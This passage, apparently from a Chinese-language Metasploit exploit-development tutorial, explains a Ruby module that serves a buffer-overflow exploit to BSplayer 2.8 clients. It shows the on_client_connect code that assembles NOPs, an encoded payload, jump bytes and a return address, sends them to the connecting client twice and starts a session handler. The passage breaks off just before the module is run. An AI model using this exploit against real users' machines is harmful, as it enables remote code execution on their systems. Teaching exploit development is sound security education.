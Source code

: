 在使用了这么多漏洞之后，我们可以看到前面的代码部分没有什么不同，除了来自`/lib/msf/core/exploit/tcp_server.rb`的 TCP 服务器库文件。TCP 服务器库提供了处理传入请求和以各种方式处理它们所需的所有必要方法。包含此库可启用其他选项，如`SRVHOST`、`SRVPORT`和`SSL`。让我们看一下代码的其余部分：

```
def on_client_connect(client) 
return if ((p = regenerate_payload(client)) == nil) 
    print_status("Client Connected") 
    sploit = make_nops(target['Offset']) 
    sploit << payload.encoded 
    sploit << "\xcc" * (6787-2048 - payload.encoded.length)  
    sploit << "\xe9\x85\xe9\xff\xff"  
    sploit << "\xeb\xf9\x90\x90" 
    sploit << [target.ret].pack('V') 
    client.put(sploit) 
    client.get_once 
    client.put(sploit) 
    handler(client) 
    service.close_client(client) 
  end 
end 
```

我们可以看到，我们没有利用这种类型的利用方法。然而，我们有`on_client_connect`、`on_client_data`和`on_client_disconnect`方法。最有用、最简单的方法是`on_client_connect`方法。一旦客户端连接到所选`SRVHOST`和`SRVPORT`上的漏洞攻击服务器，就会触发此方法。

我们可以看到，我们使用`make_nops`以 Metasploit 方式创建了 NOP，并使用`payload.encoded`嵌入了有效负载，从而消除了硬编码有效负载的使用。我们使用与原始开发中使用的方法类似的方法组装了`sploit`变量的其余部分。但是，为了在请求时将恶意数据发送回目标，我们使用了`client.put()`，它将使用我们选择的数据向目标做出响应。由于利用漏洞需要向目标发送两次数据，因此我们使用`client.get_once`确保数据传输两次，而不是合并到单个单元中。将数据发送两次到目标，我们启动处理程序，该处理程序会主动查找成功利用漏洞的传入会话。最后，我们通过发出`service.client_close`调用来关闭与目标的连接。

我们可以看到我们在代码中使用了`client`对象。这是因为来自特定目标的传入请求将被视为一个单独的对象，它还将允许多个目标同时连接。

让我们看看我们的 Metasploit 模块的运行情况：

![](img/724811da-24b6-42b5-a4e6-8abdb9895c45.png)

让我们从 BSplayer 2.8 连接到端口`8080`上的漏洞攻击服务器，如下所示：
